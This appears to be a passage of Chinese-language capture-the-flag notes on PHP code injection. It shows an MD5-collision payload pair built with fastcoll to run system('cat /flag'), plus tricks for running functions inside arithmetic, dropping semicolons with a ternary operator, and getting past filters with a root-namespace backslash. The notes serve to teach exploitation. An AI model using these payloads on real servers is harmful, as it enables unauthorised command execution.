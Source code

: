 a.txt:

```a.txt
system('cat /flag');//?>
```

bash:

```bash
>_:fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt

>_:x=system%28%27cat+%2Fflag%27%29%3B%2F%2F%3F%3E%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%11%82%91%ADm%E1g%0F%8CR%AB%5EF%0CH%C8%B7%1Ar0%B9d%1B%DDU%DEA%BA%C8%0B5B%F1%BB%06%C7%D8E%F3%C7%87%BE%C8%F4%1Cp%DBi%A3b%C7%9Bs%07%C6%A5%09%A3%C8uN%A7%2A%C8%7B%D0%C6%A98rd%ECZ%9CO%91%B7%12%AAV%40%EF%0Fs%13%C6%16r%D3ZnG%EC%87%FEk%10%3D%1E%19%F6%0F%DC%02%9A%83H%B7%C0%CC%E9j%28Q-%B6%5C%0Cd%A5%23%28%151%7E%A0%E4%2A&y=system%28%27cat+%2Fflag%27%29%3B%2F%2F%3F%3E%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%11%82%91%ADm%E1g%0F%8CR%AB%5EF%0CH%C8%B7%1Ar%B0%B9d%1B%DDU%DEA%BA%C8%0B5B%F1%BB%06%C7%D8E%F3%C7%87%BE%C8%F4%1C%F0%DBi%A3b%C7%9Bs%07%C6%A5%09%A3%C8%F5N%A7%2A%C8%7B%D0%C6%A98rd%ECZ%9CO%91%B7%12%AAV%40%EF%0F%F3%13%C6%16r%D3ZnG%EC%87%FEk%10%3D%1E%19%F6%0F%DC%02%9A%83H%B7%C0L%E9j%28Q-%B6%5C%0Cd%A5%23%28%15%B1%7E%A0%E4%2A
02ab0571e1aa07044856dd83f5048dc5
02ab0571e1aa07044856dd83f5048dc5
```



## 函数与数字运算

[https://www.php.net/manual/zh/language.operators.php](https://www.php.net/manual/zh/language.operators.php)

在 PHP 中, 函数与数字进行运算的时候, 函数能够被正常执行

```php
1+phpinfo()+1;
```

`+ - * / & |` 都行, 另外还有 `&& ||`



## 三目运算符构造语句

有时候构造不带分号 payload 时需要用到三目运算符

```php
return 1 ? phpinfo():1;
(<条件> ? 参数_1 : 参数_2)
```

1 永远为 true, 于是正常执行 phpinfo

## 根命名空间 \ 绕过过滤

上面的参考文章里也提到了

> PHP 的命名空间默认为 `\`, 所有的函数和类都在 `\` 这个命名空间中, 如果直接写函数名 function_name() 调用, 调用的时候其实相当于写了一个相对路径; 而如果写 \function_name() 这样调用函数. 则其实是写了一个绝对路径. 如果你在其他 namespace 里调用系统类, 就必须写绝对路径这种写法.
